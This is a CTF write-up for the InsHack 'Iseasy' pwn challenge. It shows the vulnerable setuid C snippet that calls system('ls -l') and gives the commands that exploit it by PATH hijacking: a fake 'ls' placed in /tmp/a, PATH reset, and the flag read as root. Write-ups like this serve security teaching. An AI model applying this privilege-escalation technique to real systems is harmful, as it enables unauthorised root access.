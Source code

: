 ```yaml
---
title: "InsHack -- Iseasy Writeup"
categories:
  - InsHack
tags:
  - CTF
  - pwn
---
```


> My shower won't give me warm water :/ maybe it's an hacker? :o Could you help me? ssh <you_ssh_user>@pwn1.ctf.insecurity-insa.fr

<div class="notice--info">
<strong>Name</strong>: Iseasy
<strong>Category</strong>: pwn
<strong>Points</strong>: 75
<strong>Solves</strong>: 127
<strong>Given</strong>: `Iseasy`, `vuln.c`
</div>


# Solution
The whole source code is just this litle snippet:
```c
int main() {
    system("ls -l");
}
```

This simply lists the files in the current directory. <br>
Very importantly the program is running with **setuid**, meaning the executable **runs as root** even if a normal user runs it. But how can this harm anyone if it just lists a directory?

Well, the program will run the executable `ls` but how does it find it? It uses the PATH environment variable.<br>
That means that if we are able to point it to our `ls` it would just run `our/ls` and not `/bin/ls`!

So the solution goes something like this:
 - Create a file named `ls` in the `/tmp/a` directory.
```
mkdir /tmp/a
touch /tmp/a/ls
```

 - Write in `/tmp/a/ls`:
```
/bin/cat $PWD/flag
```

 - And now if we just change the PATH environment variable to point to our `ls` it should work:
```bash
export PATH=/tmp/a
./vuln
```

**IT WORKED!**

